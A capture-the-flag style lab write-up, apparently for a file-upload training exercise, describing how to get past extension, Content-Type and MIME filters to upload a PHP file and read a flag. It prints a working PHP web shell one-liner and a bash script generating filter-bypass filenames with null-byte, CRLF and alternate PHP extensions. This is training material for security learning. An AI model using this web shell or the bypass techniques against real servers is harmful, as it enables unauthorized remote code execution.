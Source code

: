 # Type Filters
<br>
 The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. 
 Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at "/flag.txt"

 `Hint`: Start with a request that can be uploaded (e.g. jpg image), then try to find an allowed PHP extension that doesn't get blocked,
 then utilize one of the whitelist filter bypasses to bypass both extension filters.

 ---
- Test payload:
  ```php
  <?php echo "Hello HTB"; ?>
  ```
- Basic web shell:
  ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
 - Web-all-content-types wordlist: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt

- We download the wordlist and filter for image-related `content-type`:
```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-all-content-types.txt
cat web-all-content-types.txt | grep 'image/' > image-content-types.txt
```
Note: `/image/jpg` is not in the list.

- Common mime types:
  - `jpeg`: `FF D8 FF`
  - `gif`: `GIF8` (GIF87a | GIF89a)

  <br>

 ---
<br>

# Exercise

## Fuzzing the `Content-Type` Header

We performed fuzzing on the `Content-Type` header to determine which types are allowed:  
![image](https://github.com/user-attachments/assets/b6376c4b-05d7-4821-80c6-04b0901559b9)  

The results revealed that the following types are permitted:  
- `image/gif`  
- `image/jpeg`  
- `image/png`  

Manually testing also confirmed that `image/jpg` is allowed:  
![image](https://github.com/user-attachments/assets/287f8443-d7fc-41c0-93af-7140125607ca)  

---

## Testing File Content Using Magic Bytes

We tested the uploaded files' content by checking their **magic bytes** to determine the permitted MIME types:  
![image](https://github.com/user-attachments/assets/b5d9d02b-5984-48b1-9473-bfd797379b27)  
![image](https://github.com/user-attachments/assets/8acbe838-c50e-48ac-8322-5a2948e611ff)  

---

## Attempting to Upload a `.php` Web Shell

We tried uploading a web shell with a `.php` extension. However, the server responded with the following error:  
**`Extension not allowed`**:  
![image](https://github.com/user-attachments/assets/290960dc-0829-456a-a84f-2c4ece59ded5)  

---

## Fuzzing Whitelist with Common Web Extensions

To investigate whether any web extensions other than image extensions were allowed, we fuzzed the server with **common web extensions** from SecLists.  
Unfortunately, no additional web extensions were accepted in the whitelist:  
![image](https://github.com/user-attachments/assets/c1bb7c02-26fc-47f6-a32c-0a0d3bf25942)  
![image](https://github.com/user-attachments/assets/05e266e9-ec3a-4658-a82a-47d273a079e2)  

---

## Observations

- **Blacklist Validation:** When the server uses a blacklist, it rejects files with `.php` extensions and responds with `Extension not allowed`.  
- **Whitelist Validation:** When the server uses a whitelist, it only accepts image extensions and responds with `Only images are allowed` for any other file types.


# Extension Fuzzing with a Custom Wordlist

We will perform extension fuzzing using a custom wordlist containing various payloads designed to bypass both whitelists and blacklists. To generate this wordlist, we used the following script:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':' ';'; do
    for ext in '.php' '.phps' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.php8' '.pht' '.phar' '.phpt' '.pgif' '.phtml' '.phtm'; do
        echo "shell$char$ext.gif" >> wordlist.txt
        echo "shell$ext$char.gif" >> wordlist.txt
        echo "shell.gif$char$ext" >> wordlist.txt
        echo "shell.gif$ext$char" >> wordlist.txt
    done
done
```

![image](https://github.com/user-attachments/assets/d38dc1fb-0145-46e3-995e-b62b0d0f235a)
![image](https://github.com/user-attachments/assets/b5a30412-a7dc-4b71-ac59-7668dd551648)



# Accessing Uploaded Extensions and Executing Code

We observed that several extensions could be successfully uploaded. Next, we made a request to view the uploaded files and performed fuzzing using the same wordlist. This approach also tested access to the previously uploaded files:

![Fuzzing Uploaded Files](https://github.com/user-attachments/assets/daa20c87-d26a-4232-88f7-1b2935ae3e55)

## Identifying Executable Extensions

Among all the files that were successfully uploaded and accessible (status code 200), only a few were able to interpret and execute code:

![Executable Extensions](https://github.com/user-attachments/assets/3b96a212-41bd-46c3-aa74-8b3c1cb721d4)

## Deploying the Web Shell

We uploaded the web shell:

![Uploading Web Shell](https://github.com/user-attachments/assets/a3ea2241-07b1-4707-b1b1-3139e46985d5)

Then, we accessed the previously uploaded file:

![Accessing Web Shell](https://github.com/user-attachments/assets/efeea997-8b73-45b4-bbca-22ac059d925d)

## Capturing the Flag

Finally, we retrieved the flag and completed the lab:

![Flag Retrieved](https://github.com/user-attachments/assets/9782e1f3-54f1-4c10-93b5-e96ea9ba8600)







